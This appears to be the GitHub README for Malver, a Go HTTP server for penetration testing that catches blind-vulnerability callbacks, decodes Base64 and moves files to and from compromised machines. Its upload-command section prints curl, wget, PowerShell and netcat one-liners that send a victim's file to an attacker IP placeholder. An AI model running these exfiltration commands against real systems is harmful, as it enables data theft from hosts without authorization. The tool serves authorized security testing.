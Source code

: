 # Malver - **Mal**icious Ser**ver** for Pentesting & Bug Bounty

## Overview

Malver (**Mal**icious Ser**ver**) is a lightweight HTTP server designed to simplify common tasks in penetration testing and bug bounty hunting. It allows security researchers to efficiently decode Base64 data, validate blind vulnerabilities, and transfer files to and from a compromised system.



## Features

- Base64 Decoding – Quickly decode attacker-controlled data.
- File Transfer – Upload/download files in engagements.
- Blind Vulnerability Testing – Use `/` to validate SSRF, RCE, or command injection.
- Configurable – Customize endpoint paths and directories via CLI.
- Logging – Outputs structured logs for tracking interactions.
- Upload Command Generator – Automatically generate ready-to-use upload commands for upload feature.



## Endpoints

| Method | Endpoint | Description |
| ---- | ---- | ---- |
| GET | `/` | Used to validate blind vulnerabilities by sending a request.|
| GET | `/down/{filename}` | Downloads a file from the victim’s machine.|
| POST | `/up` | Uploads a file from the victim’s machine to the attacker's system.|
| GET | `/b64d?d=<encoded>` | Decodes Base64-encoded query data.|



## Installation

Ensure you have Go installed, then run:

```bash
go install github.com/omarelshopky/malver/cmd@latest
```

This will install the malver binary in your Go bin directory.



## Usage

```bash
malver [-headers] [-port=3000] [-upload=./uploads] [-download=./downloads] [-ping-endpoint=/] [-down-endpoint=/down] [-up-endpoint=/up] [-b64d-endpoint=/b64d]
```



## Command-Line Flags

| Flag | Default | Description |
| ---- | ---- | ---- |
| `-headers` | `false` | Log request headers |
| `-port` | `3000` | Port to run the HTTP server on |
| `-upload` | `./uploads` | Directory for file uploads |
| `-download` | `./downloads` | Directory for file downloads |
| `-ping-endpoint` | `/` | Endpoint for ping |
| `-down-endpoint` | `/down/` | Endpoint for file downloads |
| `-up-endpoint` | `/up` | Endpoint for file uploads |
| `-b64d-endpoint` | `/b64d` | Endpoint for base64 decoding |
| `-upload-cmds` | `false` | Generate ready-to-use upload commands |
| `-ip` | `<ATTACKING_IP>` | Specify the attacker's IP address (used with -upload-commands) |
| `-file` | `<FILE_PATH>` | Specify the full path of the file to be uploaded (used with -upload-commands) |



## Example Use Cases

- Send a request to `/` and check if the target system can reach back.
- Extract and decode data sent from an exploited machine using `/b64d?q=<encoded>`
- Retrieving files from a compromised machine using `/down/{filename}` to download files.
- Upload a shell or tool using the `/up` endpoint. Use `-upload-commands` to generate pre-configured upload commands that can be executed on the victim machine using various built-in tools.




### Generating Upload Commands

To quickly generate ready-to-use upload commands, use:

```bash
malver -upload-commands -ip <ATTACKING_IP> -file <FILE_PATH>
```

Example output:

> cURL (Multipart Upload)

```bash
curl -X POST http://<ATTACKING_IP>:3000/up -F "file=@<FILE_PATH>"
```

> cURL (Raw Binary Upload)

```bash
curl -X POST --data-binary "@<FILE_PATH>" http://<ATTACKING_IP>:3000/up -H "Filename: <FILE_PATH>"
```

> wget

```bash
wget --method=POST --body-file=<FILE_PATH> --header="Filename: <FILE_PATH>" --header="Content-Type: application/octet-stream" "http://<ATTACKING_IP>:3000/up"
```

> Invoke-WebRequest (PowerShell)

```powershell
Invoke-WebRequest -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> Invoke-RestMethod (PowerShell)

```powershell
Invoke-RestMethod -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> netcat (nc)

```bash
(echo -en "POST /up HTTP/1.1\r\nHost: <ATTACKING_IP>:3000\r\nContent-Length: $(wc -c < <FILE_PATH>)\r\nFilename: <FILE_PATH>\r\nContent-Type: application/octet-stream\r\n\r\n"; cat <FILE_PATH>) | nc <ATTACKING_IP> 3000
```



## Logging

All requests are logged in the following format:

```bash
<DATE> <TIME> <CLIENT_IP>:<CLIENT_PORT> "<METHOD> <ENDPOINT><QUERY_PARAMS> HTTP/<HTTP_VERSION>" <STATUS_CODE> - [<POST_DATA>] <ENDPOINT_SPECIFIC_MESSAGE>
```

This helps track interactions with the server, including query parameters, POST data, and decoded Base64 content.



## Disclaimer

Malver is intended for legal penetration testing and security research only. Unauthorized use of this tool against systems without explicit permission is illegal and unethical. The author is not responsible for any misuse.
